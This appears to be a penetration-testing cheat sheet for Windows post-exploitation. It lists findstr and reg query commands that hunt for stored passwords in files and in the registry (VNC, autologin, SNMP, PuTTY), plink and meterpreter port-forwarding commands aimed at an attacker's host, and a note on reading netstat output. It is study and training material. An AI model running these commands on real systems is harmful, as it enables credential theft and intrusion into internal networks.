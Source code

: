 # Password & Port Forwarding

## Password

### In Files

Search for the password stored in the cleared text in files.

```
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini

#Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*

# Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*
```

### In Registry

```
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

## Port Forwarding

### Service only available from inside

*Sometimes there are services that are only accessible from inside the network.* 

For example a MySQL server might not be accessible from the outside, for security reasons. 

It is also common to have different administration applications that is only accessible from inside the network/machine. Like a printer interface, or something like that. 

These services might be more vulnerable since they are not meant to be seen from the outside.

```
netstat -ano
```

Look for **LISTENING/LISTEN**. Compare that to the scan you did from the outside.  

Does it contain any ports that are not accessible from the outside?

If that is the case, maybe you can make a remote forward to access it.

```
# Port forward using plink
plink.exe -l root -pw mysecretpassword -R 445:127.0.0.1:445 192.168.0.101

# Port forward using meterpreter
portfwd add -l <attacker port> -p <victim port> -r <victim ip>
portfwd add -l 3306 -p 3306 -r 192.168.1.101
```

So how should we interpret the netstat output?

**Local address 0.0.0.0**  

Local address 0.0.0.0 means that the service is listening on all interfaces. This means that it can receive a connection from the network card, from the loopback interface or any other interface. This means that anyone can connect to it.

**Local address 127.0.0.1**  

Local address 127.0.0.1 means that the service is only listening for connection from the your PC. Not from the internet or anywhere else. 

**Local address 192.168.1.9**  

Local address 192.168.1.9 means that the service is only listening for connections from the local network. So someone in the local network can connect to it, but not someone from the internet. 





